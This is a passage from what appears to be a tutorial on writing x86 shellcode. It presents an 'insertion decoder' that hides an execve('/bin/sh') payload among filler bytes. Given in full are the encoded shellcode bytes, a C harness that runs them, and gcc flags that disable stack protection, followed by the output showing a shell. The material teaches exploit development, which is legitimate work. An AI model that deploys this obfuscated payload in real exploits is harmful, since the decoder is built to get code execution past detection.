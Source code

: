 That's it. Let's cut out shellcode

```
$ shellcode-dump.sh insertion-decoder
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xaa\x75\x10\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa"
```

copy this in `shellcode.c`

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xaa\x75\x10\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

and compile it

```
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

and run this

```
$ ./shellcode 
Shellcode Length:  86
$ 
$ 
$
```

And awesome if you notice we have our `/bin/sh` shell just as expected

Let's quickly look at gdb and see what is really going on in all of 
that decoding.

```
gdb -q ./shellcode
```
